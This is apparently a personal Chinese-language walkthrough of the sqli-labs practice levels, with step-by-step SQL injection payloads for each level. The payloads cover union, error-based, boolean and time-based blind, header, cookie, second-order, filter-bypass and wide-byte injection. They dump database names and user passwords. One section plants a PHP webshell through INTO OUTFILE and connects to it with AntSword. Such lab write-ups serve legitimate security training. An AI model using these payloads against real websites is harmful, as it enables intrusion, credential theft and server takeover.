










Less(1-10)通关笔记
less-1
本题有回显有报错，使用联合查询
目标：
查明该网站数据库表名，列数列名，以及得到所用的用户数据。
1、使用hackbar输入 ?id=1 得到结果，正常显示;
2、输入id=1’ 显示错误，说明输入的’已经被数据库解析，告诉我可以通过闭合’’的形式将代码写入数据库，进行注入攻击。
3、确定列数
输入?id=1时回显有Your Login name和Your Password两组数据，加id列猜测该数据库为三列
用order by 语句验证：
输入至order by 4 时出现报错，说明猜测正确，该数据库有三列
4、确定注入点
使用union select联合查询查看回显，确定注入点。
?id=-1’ union select 1,2,3;
//使id报错，根据第三步所得列数，确定第二和第三列有回显，可以注入。
5、查看数据库名。
在union select 1,2,3; 的基础上，在注入点位置分别输入database()得到数据库名security。
6、得到所有数据库信息
利用information_schema数据库
?id=-1’ union select 1,2,group_concat(schema_name) from information_schema.schemata –+
//使第三列回显数据库information_schema中表schemata的信息
注：数据库information_schema中表schemata储存着的列chema_name的所有数据库的信息
7、得到当前数据库中所有表名
同第6步，利用information_schema数据库
已知当前数据库名security。
?id=-1’ union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=”security” –+
//使第三行回显数据库information_schema中表tables中列table_name的信息，该列储存表名，并用where限定列table_schema为security。
8、查看当前表中的列名
同上两步，将命令改为
?id=-1’ union select 1,2,group_concat(column_name) from information_schema.columns where table_name=users –+
//转16进制
9、取出所有用户名和密码
同前几步，将group_concat中添加group_concat_ws()即可
?id=-1’ union select 1,2,group_concat(concat_ws(“~”,username,password)) from security.users –+

Less-1目标达成
Less-2
同Less-1，只是将id的类型改为了整形，无需再使用单引号闭合。
1、再less-1的基础上，输入?id=1 and 1=2 –+
出现报错，说明id是整型
若id非整形，则会将“1 and 1=2”看作一个整体字符，因后面的limit 0,1正常输出，而整形只输入了“1”，后面的and 1=2 会使语句报错，无法正常输出
闭合类型判断方法
输入 ?id=1 and 1=1 –+
正常 //id为整形或字符型或程序后加limit0,1语句
报错 //程序后无limit语句，并为字符型
输入 ?id=1 and 1=2 –+
正常 //程序后有limit语句且为字符型
报错 //为整形或字符型后无limit语句
输入 id=1’ and 1=1 –+
正常 //字符型单引号闭合或其他闭合符号
报错 //整形
确定是整形或非整形后
输入 ?id=1’ 查看报错信息即可得到闭合符号
然后用order by 9999999999999999999 –+确认，出现报错说明闭合符正确
若后面存在limit语句，在没有正确输入闭合符前，系统会将输入的所有内容按字符处理
注意：最多输入19个9，也就是数据不能溢出，这样的目的是查看是否会正常报错，19个以上的9占字节高出字符型范围，会导致报错，这样无法判断报错原因
order by
确定有limit语句时
可用?id=1 order by 999999999–+一步判断是否为整型
Less-3
大体同前两题，经过测试，该题为字符型，以’)包裹
总结：
1：字符型会自动加入两个单引号。
2：数字型不会加入两个单引号。
3：被单引号括起来的数据会被当成一个整体。
4：LIMIT m,n 会影响select语句的结果。
5：页面回显发生错误和页面不回显数据是两回事。前者表示sql语句出错了，后者表示sql语句没有错误，但是条件不成立
Less-4
经测试，id使用”)闭合，其他内容同前三道
总结
前四道题均考查有回显状态的sql注入，主要对联合查询进行学习，还可以使用报错注入的方法
主要需掌握联合查询，数据库基本结构，闭合符的探测等
Less-5
本题无回显但有报错（order by 999探测是否有报错），所以使用报错注入
1、确定闭合方式与列数
本题有报错
输入：?id=1 显示正常
输入：?id=1’ 报错 根据报错信息确定为单引号闭合
使用order by确定列数，结果为3列
?id=1’ order by 3 –+

2、确定数据库名
因无回显，所以这道题要使用盲注，使用left()函数猜出库名
?id=1’ and left(database(),1)>”c” –+ //确定第一位，结果为s
?id=1’ and left(database(),2)>”sa” –+ //确定第二位，结果为se
猜测与前几道题共用一个数据库
验证：?id=1’ and left(database(),1000)=”security” –+ //猜测正确

3、得到所有表名
?id=1’ and updatexml(1,(select group_concat(0x7e,table_name) from information_schema.tables where table_schema=”security”),0)–+
使用updatexml报错注入确定表名
updatexml报错返回的长度有限，可后加limit语句逐个输出
如爆出所有数据库名：?id=1’ and updatexml(1,(select concat(0x7e,schema_name) from information_schema.schemata limit 4,1),0)–+

4、得到所有列名
?id=1’ and updatexml(1,(select concat(0x7e,column_name) from information_schema.columns where table_name=”users” limit 4,1),0)–+
大体同表名注入
5、得到所有数据
?id=1’ and updatexml(1,(select concat(0x7e,username,0x7e,password) from security.users limit 0,1),0)–+
大体同上
Less-6
解法同第五题，经测试为双引号报错注入
值得注意：在第6题中，users表的第4列是password，第五列是username,顺序与之前相反
总结：5、6题与前四道主要区别在于有无回显
思路：
1、探测是否可以注入，有无注入漏洞
2、确定闭合方式
3、查看有无回显和报错
有回显有报错：方法随意
有回显无报错：联合查询
无回显有报错：报错注入
无回显无报错：盲注
Less-7
考察一句话木马的使用
1、确定是否存在注入漏斗以及闭合方式
?id=1’)) and 1=1–+
?id=1’)) order by 3–+
存在注入漏洞，使用’))闭合内容，无回显与报错，初步判断使用盲注
2、确定数据库名
?id=1’)) and left(database(),9)=”security”–+
3、写入一句话木马
前提：知道网站绝对路径
?id=’)) union select ““ into outfile “路径\1.php”–+
这里我发现了一个快速爆库的办法
在输入：?id=1’)) and ““ into outfile “路径\1.php”–+时
1.php注入成功，但文件里没有写好的一句话木马
猜测，sql命令用and连接会进行判断将”“当作普通字符串或命令处理，
sql命令结构变为先?id=1’)) and ““，恒正确
又select 1 into outfile “路径\1.php”–+
导致只是注入了1.php但1，php没有值
不知道怎么验证
再次尝试
想到or语句，忽略or后一句的错误
?id=1’)) or ““ into outfile “路径\1.php”–+
结构为：?id=1’))正确,”“不在进行or判断
所以结构为:?id=1’)) into file “路径\1.php”–+
验证成立
得到id=1的数据！！
兴趣来了，虽然不知道他到底以为一句话是什么，但我可以让他报错
?id=1’)) or 1 into outfile “路径\1.php”–+
注入的文件夹里出现了所有的数据！
但我不懂这要怎么理解
不管我把路径改到哪，我都得到了数据

然而，这在实际注入操作中并没有什么作用，因为前提是知道路径，还要能查看文件
不如一句话木马实际
4、使用蚁剑连接
 成功
Less-8
1、确定闭合方式
?id=1’–+ 返回界面正确，确定为单引号闭合，无回显，无报错。
初步判断为布尔盲注
2、确定数据库名
?id=1’ and left(database(),999)=”security”–+
返回正确，确定数据库为security
4、盲注出所有数据
如：?id=1’ and ascii(substr((select schema_name from information_schame.schemata limit 0,1),1,1))>122 –+
类似此种语句爆出所有内容
可以写脚本或使用工具
Less-9 and Less-10
1、确定注入漏洞，闭合方式
输入id=1,id=-1,id=999回显均相同且无报错
初步判断需使用时间盲注
?id=1’ and sleep(5) 出现响应延迟，确定为单引号闭合
2、确定数据库名
?id=1’ and if(ascii(substr(database(),1,1)) > 22,sleep(5),1)–+
如果数据库第一个字符ascii值大于22，延时5秒，否则返回1
原理：无论输入何值回显均不变，但输入正确会延时，错误延时亦可
3、确定数据
在布尔盲注的基础上加入sleep语句通过是否有延时判断
Less-10 与Less-9相比，只是将单引号闭合改为双引号闭合
语句示例：
?id=1’ and if((substr((select table_name from information_schema.tables where table_schema=”security”
limit 3,1),1,999)=”users”),sleep(3),1)–+
Less-11 and 12
1、确定传输方式
输入任意值，打开network查看请求头为post传参
使用hackbar的post注入
2、确定注入漏洞，闭合方式以及注入点
查看network,data文件上传了三个内容，所以构建语句
uname: admin&passwd: admin&submit: Submit
输入后报错，测试发现submit始终不变，可能是提交键，故删除submit
即：uname=admin&passwd=admin
确定闭合方式的方法与get注入基本一致
uname=admin’ and 1=2#&passwd=# 确定为单引号闭合
注意：#也是注释符，效果同–+，最后用#是因为使用–+会出现未知错误，当然可以使用– aaa(此处为任意值)
用admin测试有返回内容,用order by 测试有报错信息
联合查询与报错注入均可使用
3、得到数据
联合查询：uname=’ union select 1,database()–+ &passwd=#
报错注入：
uname=admin’ and extractvalue(1,(select concat(0x7e,database())))#&passwd=#
uname=admin’ and updatexml(1,(select concat(0x7e,database())),0)#&passwd=#
Less-12只是将闭合方式改为(“”)，其他内容无区别
值得一提：
考虑到管理员用户名不可能全是admin，故我对sql语句进行以下更改
1、判断闭合方式
uname=’ or 1=1#
2、使用注入语句
盲注：unmae=’ or 1=1 and substr(database(),1,1)=”s”#
报错注入：uname=’ or 1=1 and updatexml(1,(select concat(0x7e,database())),0)#
联合查询本就要让用户名报错，所以不需要知道用户名
Less-13 and 14
无回显有报错，使用报错注入即可
uname=’) or 1=1 and extractvalue(1,(select concat(0x7e,database())))# &passwd=#
语句同get注入
Less-14也是报错型，闭合方式为双引号，其余同Less-13
Less-15 and 16
单引号闭合，无报错无回显，正确与错误的页面有区别，使用布尔盲注最佳
uname=’ or 1=1 and (ascii(substr(database(),1,1))>11)# &passwd=#
使用脚本跑即可
“)闭合，同Less-15无回显无报错，使用布尔盲注
Less-17
密码重置，username不可改
将username输入admin,向password注入即可
Less-18
user agent 注入
默认用户名密码admin
使用header注入中的user agent注入即可
Less-19
读代码，网页保存了我们的ip和referer，insert into ‘security’.’referers’(referer,ip_address) value (‘$referers’,’$ip’);
可知注入语句需用’闭合后在后面补齐语句，故为： ‘ or [语句] ,’ ‘);#
语句用报错注入即可
Less-20
读代码，cookie注入可用，单引号闭合
存在回显点，联合查询
Less-21 and Less-22
cookie注入，但根据回显，cookie进行了base64编码
将注入语句全部改为base64编码即可
22题在21题基础上将闭合方式改双引号闭合，其他无改变
Less-23
过滤了–和 # 这两个注释符，改用’1’=’1 或者;%00即可
Less-24
本关为二次注入
所有用户可交互的位置均无注入点
但不可直接交互的位置存在注入，即改密时的用户名
1、注册用户，用户名设为admin’#
此时因为限制’#不会注入，而是作为用户名的一部分存入数据库
2、更改密码时，会在表单提交update users set password=’{新密码}’ where username=’{用户名}’ and password=’{旧密码}’;
这里用户名中’#形成了注入，注释了后面的内容，更改了admin的密码
admin’#的密码并没有被改变
Less-25
过滤
使用异或语句检查被过滤的字段，id=1’ ^ (length(‘union’)!=0)–+
返回正常即被过滤，错误即未被过滤
其他注入相同
Less-26 && 27 && 28 && /d*a
都过滤了空格，跑脚本没有发现可以代替空格的字符，所以使用括号绕过空格
示例语句：
?id=’uNion(seLect(1),(2),(group_concat(table_name) ) from(information_schema.tables) where (table_schema=0x7365637572697479));%00
后全
32-38（忘了）为宽字节注入
在单引号双引号处用了转义符处理，所以用%df或者%bb将/变为特殊字符，即可进行正常注入
40后与之前知识点相同
- 报错注入秀操作
updatexml(1,(substr((select concat(0x7e,table_name)from information_schema.tables where table_schema=”security”),1,1)),0)
使用substr分隔字符串达到查看所有库的目的而不是使用limit，查询方便还不易被过滤。